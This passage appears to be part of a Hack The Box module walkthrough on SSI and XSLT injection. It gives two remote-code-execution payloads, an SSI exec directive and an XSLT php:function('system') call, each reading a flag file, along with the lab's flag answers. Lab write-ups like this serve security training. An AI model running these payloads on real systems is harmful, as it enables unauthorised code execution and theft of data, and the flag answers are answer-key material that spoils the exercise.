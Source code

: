 1. Exploit the SSI Injection vulnerability to obtain RCE and read the flag.

The RCE payload is:

```shell
<!--#exec cmd="cat /flag.txt" -->
```

Answer: `HTB{81e5d8e80eec8e961a31229e4a5e737e}`

## Section 14 - Preventing SSI Injection
No questions

## Section 15 - Intro to XSLT Injection
No questions

## Section 16 - Exploiting XSLT Injection

1. Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.

The RCE payload is:

```shell
<xsl:value-of select="php:function('system','cat flag.txt')" />
```

Answer: `HTB{3a4fe85c1f1e2b61cabe9836a150f892}`

## Section 17 - Preventing XSLT 
No questions

## Section 18 - Skills Assessment

Upon checking the webpage there are no visible inputs and all links the navbar do not point to anything.

![mod145_sec18_q01_a00.png](/assets/img/htb/mod145_sec18_q01_a00.png)
